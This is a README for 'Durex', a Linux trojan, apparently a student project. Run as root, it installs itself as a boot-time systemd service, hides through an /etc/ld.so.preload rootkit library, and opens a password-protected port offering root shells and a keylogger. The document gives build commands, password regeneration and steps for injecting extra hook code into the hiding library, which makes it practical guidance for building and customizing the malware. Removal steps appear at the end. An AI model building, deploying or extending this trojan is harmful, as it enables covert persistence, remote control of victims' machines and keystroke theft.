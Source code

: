 # DUREX
Simple Trojan

## INSTALLATION && USAGE
### As Normal User
```sh
$> make && ./Durex
JohnDoe
$>
```
Durex only print the user actually connected.

### As Root
```sh
$> make && ./Durex
root
$>
```
Durex only print the user actually connected... but Durex will also :

+ Create a _copy_ of himself in **/bin**
+ Create a _durex.service_ file in **/lib/systemd/system** to add himself as a service, launching himself at bootime as a deamon
+ Create a _durex.so_ library in **/usr/local/lib/** to hide himself and his functions from the system
+ Add this library in **/etc/ld.so.preload**
+ Create a _Durex.log_ file in **/var/log/**

Only one instance of Durex is created. And during his copy, Durex will changed a bit his behaviour allowing himself to :

+ Open a server on port *4242*, allowing *3* clients to connect to it
	+ The server is locked by a password
	+ The server offers to the clients:
		+ A shell as root
		+ A remote shell as root
		+ A keylogger

### Project has been tested on Debian 9.3.0 64bits.

## MODIFICATION
### Password generation
+ Generate a new password with the 'pass' executable:
```sh
$> make pass
cc -o pass other/passwd.c srcs/encrypt.c -I includes/
$> ./pass toto
toto (4): 191 248 92 67 189 94 197 184
$> ./pass kata
kata (4): 201 121 30 74 3 83 154 250
```
+ Use your best editor to modify **durex.h** :
```c
# define SERVER_PASS .. .. .. .. ..
```
+ Recompile

### Library

* Create your file and compile it
```sh
$> gcc -Wall -fPIC -shared -o ./Durex.so [myfile.c] -ldl
```
* If it compiles well, create the **hex** binary
```sh
$> make hex
cc -o hex other/txttohex.c -I includes/
$> ./hex [fichier.c]
\x23\x64\x65...
```
* Add the hexadecimal generated above in **includes/main.h**
```c
# define DUREX_MY_FILE		"/tmp/myfile.c"
# define DUREX_MY_SRC		"\x23\x64\x65\x66..."
```
* Finally add those defines in **src/library.c**
```c
int				install_library()
{
	char	*const files[] = { "gcc", "-Wall", "-fPIC", "-shared", "-o", DUREX_PROCESSHIDER_LIB,
							 DUREX_FGETS_FILE, DUREX_LXSTAT_FILE, DUREX_NEWFSTATAT_FILE,
							 DUREX_PCAP_FILE, DUREX_READDIR_FILE, DUREX_RECVMSG_FILE,
							 DUREX_RM_FILE, DUREX_XSTAT_FILE, \*DUREX_MY_FILE*\,
							 "-ldl", NULL };
	char	*const src[] = { NULL, NULL, NULL, NULL, NULL, NULL,
							 DUREX_FGETS_SRC, DUREX_LXSTAT_SRC, DUREX_NEWFSTATAT_SRC,
							 DUREX_PCAP_SRC, DUREX_READDIR_SRC, DUREX_RECVMSG_SRC,
							 DUREX_RM_SRC, DUREX_XSTAT_SRC, \*DUREX_MY_SRC*\ };
   ...
}
```
* Recompile the binary

### Dependencies
+ The only dependency is the libpcap package for packet capture:
```sh
$> sudo apt install libpcap-dev
```

### Deleting
+ If you had previously executed the binary has root you must :
	- Remove /etc/ld.so.preload
	- Stop the service durex
	- Disable the service durex
	- Remove /bin/Durex
	- Remove /lib/systemd/system/durex.service
	- Remove /var/log/Durex.log

+ I intentionnaly put no protection on deleting **/etc/ld.so.preload** to clean this up.
+ Read **lib_srcs/rm.c** to think about it. ;)

# AUTHOR
* gbourgeo
